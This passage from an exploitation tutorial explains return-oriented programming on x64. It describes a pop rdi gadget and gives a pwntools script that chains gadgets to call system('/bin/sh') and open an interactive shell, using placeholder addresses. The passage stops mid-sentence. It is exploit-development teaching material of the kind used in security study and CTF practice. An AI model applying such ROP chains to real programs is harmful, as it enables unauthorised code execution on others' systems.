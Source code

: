 #### **Finding Gadgets**

For our purpose, let's focus on gadgets that will allow us to set the **RDI** register (to pass the **"/bin/sh"** string as an argument to **system()**) and then call the **system()** function. We'll assume we've identified the following gadgets:

* **pop rdi; ret**: Pops the top value of the stack into **RDI** and then returns. Essential for setting our argument for **system()**.
* **ret**: A simple return, useful for stack alignment in some scenarios.

And we know the address of the **system()** function.

### **ROP Chain**

Below is an example using **pwntools** to set up and execute a ROP chain aiming to execute **system('/bin/sh')** on **x64**:

```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadbeefdeadbeef

# Gadgets (hypothetical values)
pop_rdi_gadget = 0xcafebabecafebabe  # pop rdi; ret
ret_gadget = 0xdeadbeefdeadbead     # ret gadget for alignment, if necessary

# Construct the ROP chain
rop_chain = [
    ret_gadget,        # Alignment gadget, if needed
    pop_rdi_gadget,    # pop rdi; ret
    bin_sh_addr,       # Address of "/bin/sh" string goes here, as the argument to system()
    system_addr        # Address of system(). Execution will continue here.
]

# Flatten the rop_chain for use
rop_chain = b''.join(p64(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```

In this example:
